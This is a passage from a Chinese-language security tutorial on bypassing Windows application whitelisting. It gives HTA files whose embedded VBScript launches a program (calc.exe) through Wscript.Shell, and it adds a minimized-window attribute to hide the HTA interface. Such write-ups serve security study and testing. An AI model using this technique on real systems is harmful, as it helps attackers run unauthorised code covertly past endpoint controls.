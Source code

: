 根据白名单系统的特点，绕过的思路如下：

1.  找到系统中的特定白名单程序
    
    利用该程序执行代码
    
    编写代码使其执行我们自己的程序
    
2.  找到系统中未被拦截的特定程序
    
    利用该程序执行代码
    
    编写代码使其执行我们自己的程序
    

0x04 绕过方法
=====

最终我们还是做到了：D

### 1.执行vbs

利用hta文件

> Tips：
> 
> hta是HTML Applications的缩写，是利用HTML和Dynamic HTML(DHTML)开发应用程序

利用如下代码即可通过hta执行vbs

```
<HTML> 
<HEAD> 
<script language="VBScript">
    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run "calc.exe"
</script>
</HEAD> 
<BODY> 
</BODY> 
</HTML> 

```

如图

![p12](http://drops.javaweb.org/uploads/images/f957c4b7785bb24eaa552b6deb2c858a872f86f9.jpg)

然而并不完美，hta的界面会默认显示，所以我们需要进一步修改来隐藏hta的主界面

加入属性指定hta执行后最小化显示，完整的代码如下

```
<HTML> 
<HEAD> 
<script language="VBScript">
    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run "calc.exe"
</script>
<HTA:APPLICATION ID="test"
WINDOWSTATE = "minimize">

</HEAD> 
<BODY> 
</BODY> 
</HTML> 

```

